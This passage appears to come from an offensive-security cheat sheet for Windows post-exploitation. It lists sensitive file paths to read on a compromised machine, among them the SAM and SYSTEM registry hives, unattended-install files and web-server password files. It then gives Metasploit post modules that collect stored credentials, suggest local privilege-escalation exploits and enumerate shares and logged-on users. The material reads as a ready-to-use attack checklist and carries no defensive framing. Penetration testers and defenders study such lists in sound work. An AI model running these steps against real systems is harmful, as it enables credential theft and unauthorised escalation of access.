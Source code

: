 ```
C:\Program Files\MySQL\MySQL Server 5.0\my.ini
C:\Program Files\MySQL\MySQL Server 5.1\my.cnf
C:\Program Files\MySQL\MySQL Server 5.1\my.ini
C:\Program Files\MySQL\MySQL Server 5.5\my.cnf
C:\Program Files\MySQL\MySQL Server 5.5\my.ini
C:\Program Files\MySQL\MySQL Server 5.6\my.cnf
C:\Program Files\MySQL\MySQL Server 5.6\my.ini
C:\Program Files\MySQL\MySQL Server 5.7\my.cnf
C:\Program Files\MySQL\MySQL Server 5.7\my.ini
C:\Program Files\php\php.ini
C:\Users\Administrator\NTUser.dat
C:\Windows\debug\NetSetup.LOG
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattended.xml
C:\Windows\php.ini
C:\Windows\repair\SAM
C:\Windows\repair\system
C:\Windows\System32\config\AppEvent.evt
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\RegBack\system
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SecEvent.evt
C:\Windows\System32\config\SysEvent.evt
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\drivers\etc\hosts
C:\Windows\System32\winevt\Logs\Application.evtx
C:\Windows\System32\winevt\Logs\Security.evtx
C:\Windows\System32\winevt\Logs\System.evtx
C:\Windows\win.ini 
C:\xampp\apache\conf\extra\httpd-xampp.conf
C:\xampp\apache\conf\httpd.conf
C:\xampp\apache\logs\access.log
C:\xampp\apache\logs\error.log
C:\xampp\FileZillaFTP\FileZilla Server.xml
C:\xampp\MercuryMail\MERCURY.INI
C:\xampp\mysql\bin\my.ini
C:\xampp\php\php.ini
C:\xampp\security\webdav.htpasswd
C:\xampp\sendmail\sendmail.ini
C:\xampp\tomcat\conf\server.xml
```

### Metasploit Post Modules

Some useful post-modules to run against msf sessions and do some of this stuff automatically...
```
use exploit/windows/local/service_permissions
post/windows/gather/credentials/gpp
run post/windows/gather/credential_collector 
run post/multi/recon/local_exploit_suggester
run post/windows/gather/enum_shares
run post/windows/gather/enum_snmp
run post/windows/gather/enum_applications
run post/windows/gather/enum_logged_on_users
run post/windows/gather/checkvm
```
